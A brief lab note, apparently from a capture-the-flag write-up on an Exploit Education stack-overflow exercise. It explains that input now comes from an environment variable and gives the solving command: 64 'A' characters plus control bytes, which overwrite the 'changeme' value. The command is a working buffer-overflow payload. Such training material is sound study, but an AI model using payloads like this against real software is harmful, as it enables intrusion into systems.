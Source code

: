 New feature is to load Environment variables with getenv("ExploitEducation")
(export ExploitEducation='Hello World!')

Ansonsten ziemlich gleich (auch memory layout)
value to set changeme to contains special cars like LF and CR

Flag: 
export ExploitEducation=$(python -c 'print("A"*64+"\x0a\x09\x0a\x0d")')

